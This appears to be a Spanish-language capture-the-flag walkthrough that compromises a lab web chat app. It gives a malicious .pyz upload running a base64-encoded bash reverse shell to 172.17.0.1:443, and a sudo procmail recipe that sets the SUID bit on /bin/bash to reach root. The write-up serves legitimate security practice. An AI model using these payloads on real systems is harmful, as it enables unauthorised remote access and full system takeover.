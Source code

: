 nmap:80

![image](https://github.com/user-attachments/assets/6da55b66-44e5-45aa-b6bd-204f3656c0a3)


---
al ingresar a la pagina principal vemos esto

![image](https://github.com/user-attachments/assets/3924a298-cd07-4d62-a48b-c0491a3129b3)

entramos a "chat Right now" y es un .dl así que lo añadimos a "/etc/host" 

al entrar nos mandara a un tipo chat que hay

![image](https://github.com/user-attachments/assets/fa5ddaa2-dc0d-4b43-a35e-4a977eb12627)


con burpsuite capturamos y vemos que los archivos se suben en formato "PYZ"
en el terminal creo un virus.pyz:

    import os
    os.system("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx' | base64 -d | bash")

en la pagina https://www.revshells.com/ creamos una reverse en base64 y nos dara algo así: YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx que será lo que colocaremos en el código 

lo guardamos, colocamos el terminal en escucha y subimos el archivo
esperamos un rato y estamos dentro ahora escalamos
después de esperar un rato tenemos al conexión

![image](https://github.com/user-attachments/assets/6a6eb0ab-ff4a-4779-8a46-521a44c1e07a)

al hacer un sudo -l aparece: /usr/bin/procmail

![image](https://github.com/user-attachments/assets/db26a903-36f3-4593-a894-88fd0d403f01)


en la carpeta /tmp hay un archivo llamado "crontab.z4q2tt" que podemos modificar 
como no hay una carpeta de procmail creamos una llamada "procmailrc",  dentro colocamos el código: 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE

![image](https://github.com/user-attachments/assets/bbb826f0-fd6a-4090-bc9c-8e9d19ac7c36)


ahora probamos que el código funciona utilizando este comando

	 echo "test" | sudo /usr/bin/procmail -m .procmailrc

![image](https://github.com/user-attachments/assets/b1ed3ffa-2170-4e85-b29d-bfceddf9e825)


ahora colocamos el mismo comando pero lo modificamos 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE; chmod u+s /bin/bash

![image](https://github.com/user-attachments/assets/6785be7e-9982-4348-b33d-ba883b79815c)


volvemos a lanzar el comando:

     echo "test" | sudo /usr/bin/procmail -m .procmailrc

revisamos con "ls -la" el archivo en especifico de /bin/bash  y vemos que esta en rojo como queríamos con los permisos, ahora lanzamos un "bash -p"

![image](https://github.com/user-attachments/assets/52a093bb-99a6-4528-9649-04bf97f23556)

y somos root!
